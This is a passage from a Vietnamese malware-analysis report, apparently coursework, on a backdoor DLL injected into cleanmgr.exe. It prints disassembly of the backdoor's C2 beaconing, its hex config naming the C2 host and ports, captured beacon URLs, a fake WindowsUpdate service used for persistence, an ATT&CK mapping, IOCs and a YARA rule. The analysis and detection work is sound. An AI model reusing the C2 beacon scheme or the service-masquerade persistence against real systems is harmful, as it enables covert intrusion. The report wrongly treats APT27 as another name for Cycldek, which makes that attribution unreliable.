    return (*pVictimId != g_dwVictimCode);
}
```

```text
Mã máy Assembly tương ứng của ConnBody:
0x1000bb10:  push   ebp
0x1000bb11:  mov    ebp, esp
0x1000bb13:  and    esp, 0xfffffff8
0x1000bb1a:  mov    esi, dword ptr [ebp + 0x1c]   ; Tham số chứa Victim ID
0x1000bb1e:  mov    edi, dword ptr [ebp + 0x18]
0x1000bb21:  mov    dword ptr [0x10044b70], edi   ; Lưu g_pSessionContext
0x1000bb27:  mov    eax, dword ptr [esi]
0x1000bb29:  mov    dword ptr [0x10044b74], eax   ; Lưu g_dwVictimCode
0x1000bb56:  call   0x10002aa0                    ; Khởi tạo Network Context
0x1000bb80:  call   0x1001885e                    ; memcpy cấu hình
0x1000bb91:  mov    ecx, 0x10044b70
0x1000bb96:  call   0x100019e0                    ; Vòng lặp nhận và xử lý lệnh C2
0x1000bbca:  ret
```

#### Kết quả rà soát luồng thực thi trong bộ nhớ Dump:
Khi quét bảng ngăn xếp (Stack Frames) của cả 12 luồng đang hoạt động trong tệp `cleanmgr.exe_241124_222256.dmp`, ta ghi nhận một bằng chứng không thể chối cãi: **9 trên 12 luồng đều có địa chỉ trả về trỏ thẳng vào `0x1000a5b9`** (nằm bên trong `XBoxBody.dll`).
Đây chính là vòng lặp chờ phản hồi của hàm giao tiếp WinINet:
- Gọi `InternetOpenW` tại `0x1000a58c` với User-Agent tùy chỉnh.
- Thiết lập thời gian timeout và retry bằng `InternetSetOptionW` tại `0x1000a5a9`.
- Sau đó các luồng đi vào trạng thái chờ nhận lệnh hoặc thực hiện các tác vụ chụp màn hình định kỳ.

---

### 2.2.6. Phân tích Hạ tầng & Giao thức C2 Đa cổng (air.thaovanhoakh.com)

#### 1. Khai quật khối cấu hình bộ nhớ C2 (Offset `0x6d0500` / VA `0x4d96fc9`):
Tại vùng nhớ heap động của tiến trình, ta phát hiện một cấu trúc dữ liệu cấu hình phẳng chứa đầy đủ thông tin máy chủ điều khiển và các cổng dự phòng:

| STT | Địa chỉ C2 Server | Cổng (Port) | Dịch vụ ngụy trang | Ý nghĩa an ninh |
| :--- | :--- | :--- | :--- | :--- |
| 1 | `air.thaovanhoakh.com` | **53** | **DNS (Domain Name System)** | **Kỹ thuật trốn thoát tối nguy hiểm:** Lợi dụng cổng DNS vốn luôn được mở trên Firewall doanh nghiệp để truyền dữ liệu HTTP lậu, qua mặt hệ thống lọc cổng |
| 2 | `air.thaovanhoakh.com` | **80** | **HTTP tiêu chuẩn** | Kênh liên lạc web thông thường |
| 3 | `air.thaovanhoakh.com` | **88** | **Kerberos Authentication** | Ngụy trang cổng xác thực miền Windows để tránh bị để ý |
| 4 | `air.thaovanhoakh.com` | **8080** | **HTTP Alternate / Proxy** | Kênh dự phòng thứ hai |


```text
khi check hex 
00000000: 50 00 00 00  00 00 61 69  72 2e 74 68  61 6f 76 61  |P.....air.thaova| -> Port 0x50 = 80
00000010: 6e 68 6f 61  6b 68 2e 63  6f 6d 00 00  ee 13 01 20  |nhoakh.com......|
00000020: 35 00 00 00  00 00 61 69  72 2e 74 68  61 6f 76 61  |5.....air.thaova| -> Port 0x35 = 53 (DNS)
00000030: 6e 68 6f 61  6b 68 2e 63  6f 6d 00 00  ee 13 01 20  |nhoakh.com......|
00000040: 58 00 00 00  00 00 61 69  72 2e 74 68  61 6f 76 61  |X.....air.thaova| -> Port 0x58 = 88 (Kerberos)
00000050: 6e 68 6f 61  6b 68 2e 63  6f 6d 00 00  ee 13 01 20  |nhoakh.com......|
00000060: 90 1f 00 00  00 00 61 69  72 2e 74 68  61 6f 76 61  |......air.thaova| -> Port 0x1F90 = 8080
00000070: 6e 68 6f 61  6b 68 2e 63  6f 6d 00 00  ee 13 01 20  |nhoakh.com......|
00000080: 57 69 6e 64  6f 77 73 55  70 64 61 74  65 00 00 00  |WindowsUpdate...| -> Tên Service bám rễ
```

#### 2. Dịch ngược cơ chế đóng gói URL và Giao thức C2:
Tại hàm `0x10009afb`, mã độc sử dụng chuỗi định dạng URL cố định nằm tại RVA `0x3ad40`:
```text
http://%s:%d/search.jsp?referer=%s&kw=%s&psid=%s
```

```text
Mã máy Assembly tạo Request tại 0x10009af0:
0x10009af0:  lea    eax, [esp + 0x98]
0x10009af7:  push   eax                           ; %s: psid (Session ID)
0x10009af8:  push   ecx                           ; %s: kw (Opcode / Heartbeat)
0x10009af9:  push   edx                           ; %s: referer (Victim ID)
0x10009afa:  push   0x1003ad40                    ; Chuỗi định dạng URL
0x10009aff:  call   0x1000a900                    ; sprintf tạo chuỗi URL hoàn chỉnh
0x10009b12:  push   0x84000100                    ; Cờ INTERNET_FLAG_RELOAD | NO_CACHE_WRITE
0x10009b22:  call   dword ptr [InternetOpenUrlA]  ; Gửi HTTP GET ra ngoài
0x10009b66:  push   0x13                          ; HTTP_QUERY_STATUS_CODE (Kiểm tra mã phản hồi HTTP 200)
0x10009b73:  call   dword ptr [HttpQueryInfoA]
```

#### 3. Bóc tách các tham số thực tế ghi nhận trong tệp Dump:
Trong bộ nhớ heap của tiến trình, ta bắt gặp trực tiếp các yêu cầu HTTP thực tế đang hoạt động:
```text
http://air.thaovanhoakh.com:53/search.jsp?referer=QTJBMT0zQUI4&kw=GX4vdw==&psid=Zh1KFg==
http://air.thaovanhoakh.com:53/search.jsp?referer=QTJBMT0zQUI4&kw=BWkrJw==&psid=Zh1KFg==
```

Giải mã các chuỗi Base64:
- **`referer=QTJBMT0zQUI4`:**
  - Giải mã Base64 -> `b'A2A1=3AB8'`
  - **Ý nghĩa:** Đây chính là **Mã định danh máy nạn nhân (Victim Machine ID / Bot ID)**, được sinh ra từ việc băm địa chỉ MAC card mạng (`%02X%02X%02X%02X%02X%02X`) và Volume Serial Number của ổ đĩa C.
- **`kw=BWkrJw==` & `kw=GX4vdw==`:**
  - Giải mã Base64 -> `0x05692b27` và `0x197e2f77`
  - **Ý nghĩa:** Mã trạng thái (Heartbeat status code / Packet sequence) báo cáo rằng máy nạn nhân đang trực tuyến và sẵn sàng nhận lệnh mới.
- **`psid=Zh1KFg==`:**
  - Giải mã Base64 -> `0x661d4a16`
  - **Ý nghĩa:** Phiên làm việc (Session Token) do C2 cấp phát.

- **User-Agent giả mạo:**
  ```text
  Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36 Edge/18.17763
  ```
  Mã độc cố tình mạo danh trình duyệt Microsoft Edge trên Windows 10 để hòa lẫn lưu lượng mạng vào các truy vấn web văn phòng thông thường.

---

### 2.2.7. Năng lực Gián điệp & Bằng chứng Thu thập (Keylogger, Chụp ảnh, Ghi hình AVI)

Dựa trên bảng IAT và việc đối soát các tệp carving trong thư mục `C:\Users\kizpam\Downloads\2`, ta chứng minh được `XBoxBody.dll` sở hữu đầy đủ bộ công cụ gián điệp cấp độ cao (Full-featured Cyber Espionage RAT):




### 2.2.8. Cơ chế Bám rễ (Persistence Service WindowsUpdate) & Tệp SilverlightMSI.dat

Rà soát các chuỗi cấu hình cố định trong DLL và vết tích trong bộ nhớ dump:

#### 1. Dịch vụ Windows giả mạo (Service Persistence):
- **Tên Service:** `WindowsUpdate`
- **Tên hiển thị (Display Name):** `Microsoft Windows Update Manager`
- **Khóa Registry cấu hình:**
  ```text
  HKLM\SYSTEM\CurrentControlSet\Services\WindowsUpdate\Parameters\ServiceDll
  ```
- **Hành vi:** Kẻ tấn công thiết lập mã độc dưới dạng một Windows Service ngụy danh dịch vụ cập nhật hệ điều hành Microsoft Windows Update. Khi hệ thống khởi động, tiến trình dịch vụ `svchost.exe` sẽ nạp tệp `ServiceDll` này, kích hoạt chuỗi nâng quyền Token và tiêm mã vào `cleanmgr.exe`.

#### 2. Dấu vết phụ tải `SilverlightMSI.dat`:
- Trong danh sách chuỗi trích xuất từ `XBoxBody.dll`, ta phát hiện chuỗi:
  ```text
  SilverlightMSI.dat
  ```
- **Bản chất:** `SilverlightMSI.dat` là tệp chứa payload đã được mã hóa hoặc stub nhị phân giai đoạn đầu. Kẻ tấn công thường ngụy trang thành tệp cài đặt Microsoft Silverlight, sau đó sử dụng kỹ thuật DLL Side-loading kết hợp một ứng dụng hợp pháp để giải mã tệp `.dat` này lên bộ nhớ, trước khi thực hiện bước Process Hollowing cuối cùng vào `cleanmgr.exe`.

---

### 2.2.9. Quy gán Chiến dịch (APT Cycldek / Goblin Panda) & Đối chiếu MITRE ATT&CK

#### 1. Căn cứ Quy gán Kẻ tấn công (Threat Actor Attribution):
Tập hợp toàn bộ các bằng chứng kỹ thuật đã thu thập cho phép chúng ta quy gán chiến dịch này cho nhóm tin tặc APT khét tiếng: **Cycldek (còn được biết đến với các tên gọi Goblin Panda, APT27, Conimes)**:

1. **Dấu vân tay mã độc (Custom HDoor Backdoor):**
   - Sự xuất hiện đồng thời của chuỗi tệp `SilverlightMSI.dat`, hàm xuất `ConnBody`, cấu trúc giao thức HTTP `/search.jsp?referer=...&kw=...&psid=...` và kỹ thuật DLL Side-loading/Hollowing là **chữ ký độc quyền (Signature TTPs)** của biến thể **Custom HDoor** do nhóm Cycldek phát triển và sử dụng (được hãng bảo mật Kaspersky Securelist công bố trong các báo cáo chuyên sâu về Cycldek).
2. **Mục tiêu tấn công & Ngụy trang tên miền (Targeting Profile):**
   - Tên miền C2: **`air.thaovanhoakh.com`**.
   - Tên miền này nhái theo **Sở Văn hóa, Thể thao và Du lịch tỉnh Khánh Hòa** (viết tắt: Thể thao Văn hóa KH).
   - Nhóm Cycldek có lịch sử hoạt động lâu năm nhắm mục tiêu đặc thù vào các cơ quan hành chính công, chính quyền địa phương, tổ chức văn hóa - quân sự tại **Việt Nam**.

#### 2. Ma trận Kỹ thuật Tấn công MITRE ATT&CK:

| Giai đoạn tấn công | Mã kỹ thuật MITRE | Tên kỹ thuật | Minh chứng trong phân tích tĩnh & bộ nhớ |
| :--- | :--- | :--- | :--- |
| **Privilege Escalation** | **T1134.001** | Token Impersonation/Theft | Gọi `OpenProcessToken`, `GetTokenInformation(TokenLinkedToken)`, `DuplicateTokenEx` |
| **Defense Evasion** | **T1055.012** | Process Hollowing | Khởi tạo `cleanmgr.exe` trạng thái treo, ghi đè `XBoxBody.dll` và tráo đổi `EIP` |
| **Defense Evasion** | **T1036.004** | Masquerade Task or Service | Đặt tên Service là `WindowsUpdate` với Display Name `Microsoft Windows Update Manager` |
| **Defense Evasion** | **T1572** | Protocol Tunneling | Đẩy lưu lượng HTTP qua **Cổng 53 (DNS)** và Cổng 88 để vượt rào tường lửa |
| **Persistence** | **T1543.003** | Windows Service: Service DLL | Ghi nhận khóa `SYSTEM\CurrentControlSet\Services\WindowsUpdate\Parameters\ServiceDll` |
| **Credential Access** | **T1056.001** | Keylogging | Triệu gọi `SetWindowsHookExW` với hook bàn phím mức thấp (`WH_KEYBOARD_LL`) |
| **Collection** | **T1113** | Screen Capture | Bóc tách được file video `cleanmgr.exe...avi` (10.5 MB) và nhiều ảnh chụp PNG |
| **Command & Control** | **T1071.001** | Web Protocols (HTTP) | Gửi request `GET /search.jsp?referer=%s&kw=%s&psid=%s` qua WinINet API |
| **Execution** | **T1059.003** | Windows Command Shell | Kết nối ngõ Pipe (`CreatePipe`) tương tác với `cmd.exe` |

---

### 2.2.10. Bảng Tổng hợp Chỉ số IOCs & Khuyến nghị Phòng thủ, Phát hiện

#### 1. Bảng Chỉ số Thỏa hiệp Toàn diện (Indicators of Compromise - IOCs):

| Phân loại IOC | Giá trị / Định danh | Ý nghĩa & Mô tả |
| :--- | :--- | :--- |
| **MD5 (Memory Dump)** | `f13a9fbd8e30fc86f4cd685d412e9be0` | Tệp kết xuất bộ nhớ `cleanmgr.exe_241124_222256.dmp` |
| **SHA-256 (Memory Dump)** | `b1548b6f11b5137b364878176a8ee10d5cc398e530eab306439efb7c5a3613fa` | Tệp kết xuất bộ nhớ `cleanmgr.exe_241124_222256.dmp` |
| **MD5 (Host Binary)** | `dda6d75a02d501f77a629cd90a018e4d` | Tiến trình Windows gốc `C:\Windows\SysWOW64\cleanmgr.exe` |
| **SHA-256 (Host Binary)** | `fd4ea3ed972ec1a89753e8152b8467dabe890493939eda9cf3e90a391c0667c2` | Tiến trình Windows gốc `C:\Windows\SysWOW64\cleanmgr.exe` |
| **MD5 (Injected DLL)** | `aaf0789e066331645647d651022bf7e5` | Thư viện độc hại nhúng `XBoxBody.dll` |
| **SHA-256 (Injected DLL)**| `6504c6e0136c7e03b683b899ef83e6de994ae208ce12ad2d86ce73c9919d42f1` | Thư viện độc hại nhúng `XBoxBody.dll` |
| **Internal DLL Name** | `XBoxBody.dll` | Tên xuất xưởng trong Export Directory |
| **Exported Function** | `ConnBody` (Ordinal 1, RVA `0xbb10`) | Hàm xuất kích hoạt payload chính |
| **Artifact Payload File** | `SilverlightMSI.dat` | Tệp nhị phân mã hóa đặc trưng của Cycldek |
| **C2 Domain** | `air.thaovanhoakh.com` | Máy chủ chỉ huy & điều khiển ngụy danh Khánh Hòa |
| **C2 Ports** | `53` (DNS), `80` (HTTP), `88` (Kerberos), `8080` (Alt) | Danh sách cổng liên lạc đa kênh |
| **C2 URL Pattern** | `http://%s:%d/search.jsp?referer=%s&kw=%s&psid=%s` | Cấu trúc URL truyền tin giả lập trang tìm kiếm |
| **Active Bot ID** | `A2A1=3AB8` (Base64: `QTJBMT0zQUI4`) | Mã định danh thiết bị nạn nhân bị xâm nhập |
| **Windows Service** | `WindowsUpdate` | Tên dịch vụ bám rễ hệ thống |
| **Service Display Name** | `Microsoft Windows Update Manager` | Tên hiển thị đánh lừa người dùng |
| **Registry Persistence**| `HKLM\SYSTEM\CurrentControlSet\Services\WindowsUpdate\Parameters` | Khóa nạp `ServiceDll` tự động khi boot |
| **Captured Evidence** | `cleanmgr.exe_241124_222256.dmp.018e35e7_00a08517.avi` | Video quay quét desktop nạn nhân (10.5 MB) |

---

#### 2. Quy tắc Nhận diện YARA (Detection Rule):

```yara
rule APT_Cycldek_HDoor_XBoxBody_Memory {
    meta:
        description = "Detects Cycldek / Goblin Panda Custom HDoor Injected Payload and C2 Pattern"
        author = "Malware Analysis Lab"
        date = "2026-10-01"
        threat_actor = "Cycldek / Goblin Panda / APT27"
        malware_family = "HDoor / Conimes"
        reference = "cleanmgr.exe Memory Dump Analysis"
    strings:
        $export_dll = "XBoxBody.dll" ascii
        $export_func = "ConnBody" ascii
        $payload_dat = "SilverlightMSI.dat" ascii
        $c2_format = "http://%s:%d/search.jsp?referer=%s&kw=%s&psid=%s" ascii
        $c2_get = "GET /search.jsp?referer=%s&kw=%s&psid=%s HTTP/1.1" ascii
        $svc_name = "WindowsUpdate" wide ascii
        $svc_display = "Microsoft Windows Update Manager" wide ascii
        $magic_pkt = { DD CC BB AA }
    condition:
        uint16(0) == 0x5A4D and
        (
            ($export_dll and $export_func) or
            ($c2_format and $payload_dat) or
            ($c2_format and $svc_name) or
            3 of them
        )
}
```

ủ các chỉ số IOC, quy tắc YARA nhận diện và phương án phản ứng sự cố toàn diện, đáp ứng hoàn hảo yêu cầu học phần Phân tích Mã độc.
